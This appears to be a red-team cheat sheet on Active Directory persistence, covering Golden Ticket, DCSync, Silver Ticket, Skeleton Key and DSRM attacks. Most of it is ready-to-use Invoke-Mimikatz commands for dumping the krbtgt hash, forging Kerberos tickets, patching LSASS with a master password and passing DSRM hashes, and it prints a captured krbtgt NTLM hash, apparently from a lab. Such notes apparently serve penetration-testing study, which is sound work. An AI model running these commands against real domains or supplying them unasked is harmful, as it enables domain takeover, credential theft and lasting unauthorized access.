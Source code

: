 ++++++++++++++++++
Golden Ticket:
++++++++++++++++++


Once we get inside DC with the privileges of Domain Administrator, we can execute following command to get krbtgt hash:
> Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName <DC_computer>

Once we get the hash of krbtgt account, we can generate our own TGT using:
> Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<sid> /krbtgt:<krbtgt_hash> id:<id> /groups:<group_id_optional> /startoffset:0 /endin:600 /renewmax:10080 /ptt"'

Found the following creds of krbtgt:
RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : ff46a9d8bd66c6efd77603da26796f35

To see currently stored tickets:
> klist


For DCSync:
> Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\<username>"'
Example: Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'



+++++++++++++++
Silver Ticket:
+++++++++++++++


Golden ticket creates a TGT using krbtgt's hash, but Silver ticket attack creates a TGS using the hash of the service to be approached.

> Invoke-Mimikatz -Command '"kerberos::golden /domain:<domain_name> /sid:<sid> /target:<target_host_where_service_is_being_used> /service:<service_name> /rc4:<password_hash_for_machine_account> /user:<username> /ptt"'


+++++++++++++++
Skeleton Key:
+++++++++++++++


Using skeleton key malware(attack/technique), the script modifies the LSASS(which handles the security and auth stuff in AD) gets modified and a secret key/password is made valid for every account other than their original password.
That secret key can be used to access any account.

> Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <domain_name>

Note: This, by default sets the secret key/password as "mimikatz". But the above "patching" can only be performed once. To do it again, the DC needs to be restarted. Also, this gives us persistence to some extent but not for much long time.
As soon as the DC restarts, the skeleton key is removed.


++++++++++++++++++++++++++++++++++++++
DSRM(Directory Service Restore Mode):
++++++++++++++++++++++++++++++++++++++


When a computer is promoted to Domain Controller, a DSRM password is set which is the local admin password of that computer.
It can be extracted using:

Note: Domain admin prives are required
> Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -ComputerName <domain_controller>

After obtaining the DSRM hash:
> Invoke-Mimikatz -Command '"sekurlsa::pth /domain:<DC-computer> /user:Administrator /ntlm:<dsrm_hash> /run:powershell.exe"'


